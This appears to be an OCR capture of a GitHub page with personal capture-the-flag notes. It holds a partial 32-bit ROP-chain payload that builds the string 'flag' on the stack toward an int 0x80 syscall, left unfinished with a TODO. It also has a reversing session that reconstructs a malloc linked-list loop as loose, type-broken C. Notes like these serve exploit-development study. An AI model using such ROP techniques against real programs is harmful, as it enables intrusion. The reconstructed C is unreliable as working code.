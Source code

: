 ```
pay += pure_add_ecx_to_eax # eax=ECX  0x80da340 (_IO_2_1_stdin_) ◂— 0xfbad2288


# 0x80da340-0x080c3ece = 91250
# 302^2 = 91204
pay += pure_inc_edi * 302 #edi=302
# eax -= 91250
pay += pure_sub_edi_from_eax * 302 #eax -= 91204

pay += dirty2 # pracically: as [edx]==0, edi=0
pay += pure_inc_edi * 46 #edi=46
pay += pure_sub_edi_from_eax # eax -= 46

# as a result, [eax]="flag"

# eax = "flag"
pay += pure_deref_eax_to_eax
pay += pure_push_eax

# part 1  done

# part 2 "push /"
pay += pure_inc_edi #edi = 47
pay += pure_push_edi

# part 3: set registers
## TODO mov esp anywhere

# part 4
pure_int80
```

reversing session
======================
Guess: some data struct handling code?

```
// var_4 -> buffer
// var_8 -> i
// var_C -> c
// the output file was compiled 32 bit

int main()
{
	int c = 0;
	int i = 0;
	int buffer;

	for(int i = 0; i <= 9; i++)
	{
		buffer = malloc(8); // push 8 irl
		assert (*buffer != NULL); // https://stackoverflow.com/a/2862748
		
		if(c)
		{
			buffer = c; 			
		}
		
		c = buffer;
		buffer->value = (i+65) & 0x000000FF; // to byte/mod	
	}
}
```


